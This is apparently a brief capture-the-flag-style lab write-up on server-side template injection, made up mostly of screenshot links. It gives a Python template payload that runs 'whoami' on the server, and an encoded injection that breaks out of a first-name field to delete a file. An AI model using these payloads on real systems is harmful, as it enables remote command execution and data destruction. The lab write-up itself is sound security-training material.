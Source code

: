 # Basic server-side template injection (code context)

## Payload Test

![image](https://user-images.githubusercontent.com/60841283/153757582-7f560739-a5e2-4203-9bbc-52c7951ce0cb.png)

Viewing first name after commenting on a blog post.

![image](https://user-images.githubusercontent.com/60841283/153757617-2d9b282c-ee9c-4f41-be1e-8ee8d9addc69.png)

## Command exec
```html
{% import os %}{{os.system('whoami')}}
```
![image](https://user-images.githubusercontent.com/60841283/153757805-d6cb06b5-7697-4fb7-bfcc-c60d39a39c2c.png)

![image](https://user-images.githubusercontent.com/60841283/153757894-7f870b84-d04e-47ba-b463-3bfc876bd4d1.png)

user.first_name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')}}

![image](https://user-images.githubusercontent.com/60841283/153758029-ef40a697-ce4d-4a1b-b8cc-3f9002104a0a.png)

![image](https://user-images.githubusercontent.com/60841283/153758034-070a00c6-e409-461b-89e6-6f82be8af4c4.png)
